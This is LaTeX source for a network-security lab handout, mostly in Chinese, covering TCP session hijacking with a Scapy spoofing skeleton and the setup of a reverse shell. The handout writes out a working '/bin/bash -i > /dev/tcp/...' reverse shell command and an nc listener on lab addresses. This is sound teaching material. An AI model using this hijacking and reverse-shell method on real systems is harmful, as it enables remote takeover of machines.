%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{comment}
% We comment out  this task, because it does not work any more.
% It seems that the video streaming client will reconnect to the server
% if the connection is broken. We haven't figured out a solution yet.
%
% My fugure plan:
%    I would like to use container to host our own streeming service.
%    Then we can launch the RST attack on the server. 
%    

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection {Task 3: TCP RST Attacks on Video Streaming Applications}

Let us make the TCP RST attack more interesting by experimenting it on 
the applications that are widely used in nowadays.
We choose the video streaming application in 
this task. For this task, you can choose a video streaming web site that you 
are familiar with (we will not name any specific web site here).  Most of
video sharing websites establish a TCP connection with the client for 
streaming the video content. The attacker's goal is to disrupt the TCP session 
established between the victim and video streaming machine. To 
simplify the lab, we assume that the attacker and the victim are on the 
same LAN. In the following, we describe the common interaction between
a user (the victim) and some video-streaming web site:

\begin{itemize}
\item The victim browses for a video content in the video-streaming web 
site, and selects one of the videos for streaming. 

\item Normally video contents are hosted by a different machine,
where all the video contents are located. After the victim selects 
a video, a TCP session will be established between the victim 
machine and the content server for the video streaming.
The victim can then view the video he/she has selected.
\end{itemize}

Your task is to disrupt the video streaming by breaking the 
TCP connection between the victim and the content server.
You can let the victim user browse the video-streaming 
site from another (virtual) machine or from the same (virtual) machine
as the attacker. Please be noted that, to avoid liability issues,
any attacking packets should be targeted 
at the victim machine (which is the machine run by yourself), 
not at the content server machine (which does not belong to you).

\end{comment}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

            


% *******************************************
% SECTION
% *******************************************
\section{Task 3: TCP 会话劫持}



\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\tcpFigs/TCP_Session_Hijacking.pdf}
  \end{center}
  \caption{TCP Session Hijacking Attack}
  \label{tcp:fig:hijacking}
\end{figure}
 
   
TCP 会话劫持的目标是通过注入恶意内容劫持两个受害者之间现有的TCP连接(会话)。
如果这一连接是 \telnet 会话,攻击者能够向会话中注入恶意命令(比如删除某个重要文件),导致受害者执行恶意命令。
图~\ref{tcp:fig:hijacking} 描绘了攻击方法。
在本任务中,你需要展示如何劫持两台机器之间的 \texttt{telnet} 会话,你的目标是使 \texttt{telnet} 服务器运行恶意命令
简单起见,我们假设攻击者和受害者在同一局域网内。



\paragraph{手动发起攻击.}
请使用Scapy来进行TCP劫持攻击。
下面提供了一个代码框架。你需要将每个 \texttt{@@@@} 替换为实际值(你可以用Wireshark来弄清应该在每个字段中填写哪些值来伪造TCP包):


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="A", seq=@@@@, ack=@@@@)
data = "@@@@"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
\end{lstlisting}


\paragraph{选做: 自动发起攻击.}
我们鼓励学生编写一个程序来使用嗅探和欺骗技术自动发起攻击。
与手工方法不同,我们从嗅探到的数据包中获得所有参数,因此整个攻击是自动化的。 
请确保当你使用Scapy的 \texttt{sniff}函数时,不要忘记设置 \texttt{iface}参数。





% *******************************************
% SECTION
% *******************************************
\section{Task 4: 使用会话劫持创建反向shell}

当攻击者能够使用TCP会话劫持向受害者的机器注入命令时,他们不仅只是想执行单个命令那么简单;
他们会执行许多命令,显然全部通过TCP会话劫持来运行这些命令非常不方便。
攻击者希望利用攻击建立一个后门,这样他们就可以利用这个后门方便地实施进一步的破坏。

设置后门的一个典型方法是,在受害者机器上运行一个反向shell,让攻击者的shell访问受害者机器。
反向shell是一个在远程机器上运行的shell进程,连接回攻击者的机器。一旦远程机器被入侵,攻击者就可以轻松地访问它。

在下文中,我们将展示在已经能够受害者机器(即服务器机器)上执行单个命令的情况下,如何设置一个反向shell。
在这一TCP会话劫持攻击中,攻击者不能直接在受害者机器上运行命令,所以他们的工作是通过会话劫持攻击来运行反向shell命令。
在这项任务中,学生需要证明他们能够实现这一目标。

为了让远程机器上的 \texttt{bash} shell 连接回攻击者的机器,攻击者需要一个进程在指定端口上等待连接。
在这个例子中,我们将使用 \texttt{netcat}。这个程序允许我们指定一个端口,并监听该端口上的连接。
如下所示,我们有两个窗口,分别来自两个不同的机器。
顶部的窗口是攻击者机器 \texttt{10.9.0.1},我们运行 \texttt{netcat}~(简称 \texttt{nc}) 来监听 \texttt{9090} 端口。
底部的窗口是受害者机器 \texttt{10.9.0.5},我们输入 反向shell 命令并执行,在顶部的窗口就能看出我们得到了运行在 \texttt{10.9.0.5} 上的一个 反向shell。

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

下面我们提供了提供一个关于反向shell命令的简单描述,详细的解释可以在SEED book中找到。

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

总之, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} 启动了一个
\texttt{bash} shell, 其 \texttt{stdin} 来自一个 TCP 连接, \texttt{stdout} 和 \texttt{stdout} 被重定向到这一连接。

如上所示, 当 \texttt{bash} shell 命令在 \texttt{10.9.0.5} 上运行时, 它连回 \texttt{10.9.0.1} 上的 \texttt{netcat} 进程。
这可以通过 \texttt{netcat} 显示的 \texttt{"Connection received on 10.9.0.5"} 消息来确认。

上面展示了在能访问目标机器的情况下如何建立一个反向 shell,但在本任务中,你没有权限直接访问目标机器。
你的任务是对用户和目标机器之间现有的 \texttt{telnet} 会话发起TCP会话劫持攻击。
你需要在被劫持的会话中注入恶意命令,这样你就可以在目标服务器上获得一个反向shell。




% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% ******************************************* 
\section*{致谢}

I would like to thank CSender (GitHub ID), Eric Dong, and Chao Gong,
for their suggestions on improving the SYN flooding attack
task in this lab. 


\end{document}
